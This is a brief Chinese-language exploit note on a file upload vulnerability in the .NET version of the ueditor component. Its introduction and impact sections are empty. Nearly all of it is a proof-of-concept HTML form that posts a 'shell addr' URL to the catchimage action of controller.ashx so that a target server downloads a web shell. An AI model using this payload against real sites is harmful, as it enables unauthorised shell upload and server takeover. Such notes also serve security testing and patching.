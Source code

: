 ueditor .net版本上传漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

本地上传poc

    <form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
    shell addr: <input type="text" name="source[]" />
     <input type="submit" value="Submit" />
    </form>

上传文件名为 1

